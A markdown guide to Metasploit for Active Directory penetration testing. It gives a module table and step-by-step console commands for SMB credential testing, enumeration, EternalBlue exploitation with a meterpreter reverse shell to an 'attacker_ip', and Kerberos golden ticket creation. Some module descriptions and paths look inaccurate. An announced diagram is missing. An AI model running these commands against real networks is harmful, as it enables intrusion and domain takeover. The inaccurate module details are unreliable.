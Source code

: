 ![Metasploit](../assets/metasploit.png)

# Metasploit Tools for Active Directory Penetration Testing

Metasploit is a powerful framework for penetration testing, and it includes numerous tools and modules specifically designed for testing Active Directory (AD) environments. This guide provides a comprehensive overview and instructions for using Metasploit in AD penetration tests.

## Introduction to Active Directory Penetration Testing with Metasploit

Active Directory is a critical component of many enterprise environments, managing user authentication and authorization. Penetration testing in AD environments helps identify vulnerabilities that could be exploited to gain unauthorized access or escalate privileges.

Metasploit offers a range of modules under the `auxiliary`, `exploit`, and `post` categories to assist in various stages of AD penetration testing, from enumeration to exploitation and post-exploitation.

## Key Metasploit Modules for AD Testing

Below is a table summarizing some key Metasploit modules useful for Active Directory penetration testing:

| **Module Type**      | **Module Name**                              | **Description**                                                                 |
|----------------------|----------------------------------------------|---------------------------------------------------------------------------------|
| Auxiliary            | `auxiliary/scanner/smb/smb_login`           | Tests credentials against SMB shares to identify valid user accounts.          |
| Auxiliary            | `auxiliary/admin/smb/ms17_010_command`      | Checks for the MS17-010 vulnerability (EternalBlue) in SMB.                    |
| Exploit              | `exploit/windows/smb/ms17_010_eternalblue`  | Exploits the MS17-010 vulnerability to gain a shell on the target system.      |
| Post                 | `post/windows/gather/enum_ad_users`         | Enumerates Active Directory users after gaining access to a system.            |
| Post                 | `post/windows/escalate/golden_ticket`       | Creates a Kerberos Golden Ticket for persistent access to the AD environment.  |

## Workflow for AD Penetration Testing with Metasploit

Here’s a high-level workflow for conducting an AD penetration test using Metasploit, illustrated with a Mermaid diagram:

### Steps in Detail

1. **Initial Access**: Use modules like `smb_login` to test stolen or weak credentials.
   ```bash
   use auxiliary/scanner/smb/smb_login
   set SMBUser username
   set SMBPass password
   set RHOSTS target_ip
   run
   ```

2. **Enumeration**: Gather information about the AD environment, such as users, groups, and computers.
   ```bash
   use post/windows/gather/enum_ad_users
   set SESSION session_id
   run
   ```

3. **Vulnerability Scanning**: Check for known vulnerabilities like MS17-010.
   ```bash
   use auxiliary/admin/smb/ms17_010_command
   set RHOST target_ip
   run
   ```

4. **Exploitation**: Exploit identified vulnerabilities to gain access.
   ```bash
   use exploit/windows/smb/ms17_010_eternalblue
   set RHOST target_ip
   set PAYLOAD windows/x64/meterpreter/reverse_tcp
   set LHOST attacker_ip
   run
   ```

5. **Post-Exploitation**: Harvest credentials or create Kerberos tickets for further access.
   ```bash
   use post/windows/escalate/golden_ticket
   set DOMAIN domain_name
   set USER krbtgt
   set SID domain_sid
   run
   ```

## Conclusion

Metasploit provides a robust set of tools for Active Directory penetration testing. By following a structured approach—enumeration, exploitation, and post-exploitation—you can effectively identify and mitigate security weaknesses in AD environments. Always ensure proper authorization and adhere to ethical guidelines during testing.

